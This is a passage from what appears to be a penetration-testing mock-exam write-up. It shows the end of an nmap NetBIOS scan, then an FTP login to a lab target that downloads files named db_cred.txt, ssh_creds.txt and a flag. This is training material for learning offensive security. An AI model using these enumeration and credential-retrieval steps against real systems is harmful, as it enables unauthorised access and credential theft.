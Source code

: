 ```
|   0DAY<20>             Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```

Looks like there are **FTP services** running in the server, with the enumerate information, we can try to access the FTP and retrieve the files:
```
┌──(kali㉿kali)-[/mnt/…/Learning/0day/NPT2025/Mock-Exam]
└─$ ftp ftp@<TARGET-IP>
Connected to <TARGET-IP>.
220 (vsFTPd 3.0.5)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get db_cred.txt
local: db_cred.txt remote: db_cred.txt
229 Entering Extended Passive Mode (|||60144|)
150 Opening BINARY mode data connection for db_cred.txt (36 bytes).
100% |*************************************************************************************************************************************************|    36      118.37 KiB/s    00:00 ETA
226 Transfer complete.
36 bytes received in 00:00 (22.62 KiB/s)
ftp> get ftp_flag.txt
local: ftp_flag.txt remote: ftp_flag.txt
229 Entering Extended Passive Mode (|||13196|)
150 Opening BINARY mode data connection for ftp_flag.txt (17 bytes).
100% |*************************************************************************************************************************************************|    17       69.75 KiB/s    00:00 ETA
226 Transfer complete.
17 bytes received in 00:00 (13.99 KiB/s)
ftp> get ssh_creds.txt
local: ssh_creds.txt remote: ssh_creds.txt
229 Entering Extended Passive Mode (|||40310|)
150 Opening BINARY mode data connection for ssh_creds.txt (55 bytes).
100% |*************************************************************************************************************************************************|    55      218.33 KiB/s    00:00 ETA
226 Transfer complete.
55 bytes received in 00:00 (31.33 KiB/s)
ftp> exit
221 Goodbye.
```
